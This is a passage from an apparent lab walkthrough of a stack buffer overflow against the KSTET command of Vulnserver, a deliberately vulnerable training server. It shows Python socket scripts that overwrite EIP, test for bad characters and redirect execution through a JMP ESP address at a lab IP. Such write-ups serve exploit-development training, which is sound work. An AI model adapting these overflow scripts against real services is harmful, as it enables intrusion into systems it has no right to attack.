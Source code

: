 We have successfully overwrote the EIP with our own data ```0x44444444```

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/kstet-1-overwrite.png">
</div>

So we could control EIP and redirect the code execution to the next point

## Finding bad characters

Lets pass bad characters on our ```buffer memory``` to see our data dump on that region,

```c
import socket, sys
# collection of badchars except \x00
badchars=(b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
b"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
b"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
b"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
b"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
b"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
b"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
payload=b""
# passing badchars on buffer and EBP
payload+=badchars[0:70]
# to overwrite EIP
payload+=b"B"*4
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"KSTET "+payload))
s.close()
sys.exit()
```

Since our buffer space is low, we will be passing set of 70 bytes of characters in sequence to analyse it in the memory

After covering all characters, we could confirm that ```null byte``` is the only bad character

## Redirecting code execution

Since, this command is similar to ```GTER``` we will be trying the same scripts used before,

```c
──(kali㉿aidenpearce369)-[~/vulnserver/KSTET]
└─$ cat jmp-esp.py 
import socket, sys
payload=b""
# to overwrite buffer and EBP
payload+=b"A"*70
# to overwrite EIP with JMP ESP
payload+=b"\xaf\x11\x50\x62"
payload+=b"D"*4
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"KSTET "+payload))
s.close()
```
